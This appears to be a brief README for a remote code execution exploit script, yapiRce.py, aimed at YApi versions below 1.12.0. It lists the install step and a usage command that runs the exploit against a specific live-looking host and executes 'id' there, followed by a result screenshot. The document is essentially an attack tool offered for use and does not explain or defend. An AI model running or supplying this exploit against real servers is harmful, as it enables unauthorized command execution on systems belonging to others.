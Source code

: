 YApi version < 1.12.0
```
pip3 install -r  requirements.txt
python3 yapiRce.py -u http://www.dreamls.com:40001/ -c 'id'
```
![result](result.jpeg)